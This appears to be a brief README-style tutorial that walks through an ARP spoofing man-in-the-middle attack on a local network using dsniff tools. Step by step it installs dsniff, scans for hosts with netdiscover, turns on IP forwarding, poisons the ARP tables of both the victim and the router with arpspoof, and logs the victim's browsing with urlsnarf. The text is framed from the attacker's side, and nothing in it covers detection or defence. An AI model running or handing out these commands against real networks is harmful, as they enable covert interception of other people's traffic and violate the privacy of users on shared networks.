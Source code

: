 Install dsniff

 `sudo -i`

`apt-get update`

`apt-get install dsniff`

Discover endpoints on local network

`sudo netdiscover`

Enable port forwarding on attack box

`echo 1 > /proc/sys/net/ipv4/ip_forward`

Generate fake ARP replies

`sudo arpspoof -i eth0 -t <VICTIM_IP> <ROUTER_IP>`

Generate fake ARP to trick the router into believing that you are the victim. This allows you to intercept incoming internet traffic.

`sudo arpspoof -i eth0 -t <ROUTER_IP> <VICTIM_IP>`

Extract websites that the victim visits

`urlsnarf -i eth0`
